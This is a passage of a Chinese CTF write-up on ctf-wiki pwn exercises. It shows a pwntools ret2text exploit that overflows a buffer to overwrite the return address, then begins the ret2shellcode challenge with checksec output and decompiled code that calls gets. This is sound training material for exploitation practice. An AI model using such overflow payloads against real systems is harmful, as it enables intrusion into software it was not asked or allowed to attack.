 

最终payload如下：

```python
from pwn import *
p=process('./ret2text')
target=0x804863a
p.sendline(b'A'*(0x6c+4)+p32(target)) #覆盖返回地址 
#虽说栈从高地址向低地址生长
#但字符串，数组等从低地址向高地址覆写
#32位程序中内存以四字节对齐，所以ebp和返回地址都是4字节,0x6c多加4覆盖了ebp，
#后面的p32(target)覆盖了返回地址
p.interactive()
```

![image-20250212214949922](./ctf-wiki-pwn刷题.assets/image-20250212214949922.png)



### 2. ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

**在新版内核当中引入了较为激进的保护策略，程序中通常不再默认有同时具有可写与可执行的段，这使得传统的 ret2shellcode 手法不再能直接完成利用**。



```
checksec ./ret2shell*
[*] '/home/seveng0/Desktop/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

有可读可写可执行段



```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
